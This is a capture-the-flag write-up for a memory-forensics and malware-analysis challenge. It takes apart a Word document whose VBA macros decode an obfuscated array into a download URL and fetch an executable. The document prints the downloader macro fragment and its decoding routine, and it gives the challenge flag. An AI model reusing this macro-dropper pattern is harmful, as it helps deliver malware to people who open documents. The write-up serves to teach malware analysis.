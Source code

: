 # CSAW HSF 2016 Prelims: Oh Noes!

**Category:** Memory Forensics and Malware Analysis
**Points:** 250
**Solves:** 54
**Description:**

> Someone opened up this .doc file and was hit with ransomware. It’s your job to figure out what happened.
> 
> https://s3.amazonaws.com/hsf2016/csaw.zip
> 
> csaw.zip password is "nyucsaw"
> 
> Challenge by thedeadrobot

## Write-up

When we try to extract `csaw.doc` from the given zip file, Windows Security Defender quarantines the file and tells us that it's a variant of `trojandownloader:097M Daoyap.A`. More information about this malware can be found by searching it on Google. The link by Microsoft, https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=TrojanDownloader:O97M/Daoyap.A, tells us that the malware uses embedded macros in Word documents to download a trojan:

> This threat contains malicious macros that can be embedded in Microsoft Office files. When you open a malicious file, Microsoft Word should show you a security notification to ask whether you want to enable macros. If you enable macros, the threat will run.

Knowing this, we want to look at the macros in the Word document. One way to do that is `oledump`. `oledump`, without any modifiers, will dump all the streams in an OLE file.

```bash
$ ./oledump.py csaw.doc
 1:      114 '\x01CompObj'
 2:     4096 '\x05DocumentSummaryInformation'
 3:     4096 '\x05SummaryInformation'
 4:    10615 '1Table'
 5:      506 'Macros/PROJECT'
 6:      113 'Macros/PROJECTwm'
 7: M  11082 'Macros/VBA/Module1'
 8: M  20200 'Macros/VBA/Module2'
 9: M  17822 'Macros/VBA/Module3'
10: M   2085 'Macros/VBA/ThisDocument'
11:     7930 'Macros/VBA/_VBA_PROJECT'
12:     3858 'Macros/VBA/__SRP_0'
13:      429 'Macros/VBA/__SRP_1'
14:      492 'Macros/VBA/__SRP_2'
15:      103 'Macros/VBA/__SRP_3'
16:     2164 'Macros/VBA/__SRP_4'
17:      455 'Macros/VBA/__SRP_5'
18:     2532 'Macros/VBA/__SRP_6'
19:      305 'Macros/VBA/__SRP_7'
20:     1256 'Macros/VBA/__SRP_8'
21:      720 'Macros/VBA/__SRP_9'
22:      617 'Macros/VBA/dir'
23:     4096 'WordDocument'
```

Four streams contain macros (the four streams with M's next to them). Looking through these macros, however, I did not see what exactly was malicious. One thing I did notice was that all of the macros were written in Spanish, and that a file called `csaw.exe` would be saved onto the file in the `%TEMP%` directory.

Googling `malicious macros doc`, we find this link among the top hits: https://blog.malwarebytes.com/threat-analysis/2015/10/beware-of-doc-a-look-on-malicious-macros/. The document that they are examining looks nearly identical to the one we are examining, in both macro content and in structure.

![alt text](https://github.com/mattfeng/hsf/blob/master/2016/oh-noes-ransomware/oh-noes-imgs/resemble.PNG "Almost Identical")

In the Malwarebytes blog, the suspicious array to look at was called `Professor`. We look for `Professor` in `csaw.doc`.

```vba
Set shellApp = CreateObject("Shell.Application")
'***************************************************
'Author: Unknownn
'Last Modification: -
'
'***************************************************
adbrd.Type = 1
Dim Professor() As Variant
Professor = Array(148, 158, 156, 150, 94, 81, 79, 145, 79, 72, 121, 131, 117, 140, 127, 124, 109, 129, 123, 52, 103, 113, 109, 45, 106, 115, 109, 35, 93, 96, 86, 93, 95, 79, 75, 21, 71, 85, 65, 85, 10, 63, 80, 59)
ans = GetStringFromArray(Professor, 44)
halalaya.Open "GET", GetStringFromArray(Professor, 44), False
Exit Sub
Us.rList(Use.rIndex).BancoInvent.Object(Slot) = Object

Call Writ.eChangeBankSlot(UserI.ndex, Slot)

End Sub
```

This snippet was found in stream 7 of `csaw.doc`.

The Malwarebytes blog continues to examine `Professor`, specifically by finding the function to decrypt its contents. The decryption function should be found in `Macros/VBA/Module2`, according to the article. We look there and find said decryption function.

```vba
Public Function GetStringFromArray(fromArr() As Variant, LenLen As Integer) As String
    Dim i As Integer
    Dim result As String
    result = ""
    For i = LBound(fromArr) To UBound(fromArr)
        result = result & Chr(fromArr(i) - LenLen + i * 2)
    Next i
    GetStringFromArray = result
End Function
```

Translating the decryption function in Python and then decrypting it:

```pytb
In [4]: def decrypt(arr):
   ...:     result = ""
   ...:     for i, c in enumerate(arr):
   ...:         result = result + chr(arr[i] - len(arr) + i * 2)
   ...:     return result
   ...: 

In [5]: decrypt([148, 158, 156, 150, 94, 81, 79, 145, 79, 72, 121, 131, 117, 140, 127, 124, 109, 129, 123, 52, 103, 113, 109, 45, 106, 115, 109, 35, 93, 96, 8
   ...: 6, 93, 95, 79, 75, 21, 71, 85, 65, 85, 10, 63, 80, 59])
Out[5]: 'http://s3.amazonaws.com/nyu-infosec/csaw.exe'
```

Downloading that file and running it, it turns out the flag isn't there.

![alt text] (https://github.com/mattfeng/hsf/blob/master/2016/oh-noes-ransomware/oh-noes-imgs/csaw%20exe.PNG "csaw.exe")

Instead, we run strings on `csaw.exe`, and see this:

```bash
$ strings csaw.exe | grep flag
the flag is in csaw2.exe
"doesn't look like the flag is here
```

It tells us the flag is in `csaw2.exe`. Downloading that file (http://s3.amazonaws.com/nyu-infosec/csaw2.exe), and running it, we get the flag.

![alt text](https://github.com/mattfeng/hsf/blob/master/2016/oh-noes-ransomware/oh-noes-imgs/flag.PNG "flag")

### Flag

`w1nterf3ll`

## Other write-ups and resources

### Resources
* `oledump`: http://didierstevens.com/files/software/oledump_V0_0_3.zip
* https://blog.malwarebytes.com/threat-analysis/2015/10/beware-of-doc-a-look-on-malicious-macros/

### Other write-ups
* (none yet)
